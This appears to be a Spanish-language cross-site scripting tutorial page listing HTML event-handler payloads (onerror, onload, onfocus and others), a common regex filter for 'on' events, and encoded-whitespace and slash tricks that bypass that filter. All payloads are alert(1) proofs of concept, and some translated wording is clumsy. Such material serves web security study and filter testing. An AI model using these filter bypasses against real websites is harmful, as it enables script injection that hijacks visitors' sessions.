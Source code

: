 ### Beyond script Tag... Using HTML Events

* Los eventos son de la manera en que HTML DOM añade interactividad entre el sitio web y sus visitantes; Esto sucede simplemente ejecutando el código del lado del cliente (por ejemplo, JavaScript)

Casi todos los identificadores del controlador de eventos comienzan con **on** y son seguidos por el nombre del evento. Uno de los más utilizados es **onerror**:

```js
<img src=x onerror=alert(1)>
```

→ pero, tal vez hay otros eventos: http://help.dottoro.com/lhwfcplu.php

Ejemplos:

```js
<body onload=alert(1)>
<input type=image src=x:x onerror=alert(1)>
<isindex onmouseover="alert(1)" >
<form oninput=alert(1)><input></form>
<texarea autofocus onfocus=alert(1)>
<input oncut=alert(1)>
<svg onload=alert(1)>
<keygen autofocus onfocus=alert(1)">
<video><source onerror="alert(1)">
<marquee onstart=alert(1)>
```

* Desde un punto de vista defensivo, la solución es filtrar todos los eventos que comienzan con **on** con el fin de bloquear este punto de inyección.

Este es un regex muy común que podría encontrar ampliamente usado:

```js
(on\w+\s*=)

# We can bypass this filter:
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x; onload=alert(1)>
<svg id='x' onload=alert(1)>
```

Tenemos un **Actuo**:

```js
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
```

* Sin embargo, algunos navegadores convierten el carácter de control en un espacio, por lo tanto el meta-carácter no es suficiente para cubrir todos los posibles carbones.

Podemos eludir eso también:

```js
<svg onload%09=alert(1)> # Works in all browsers except Safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload%0B=alert(1)>  # IE only
```

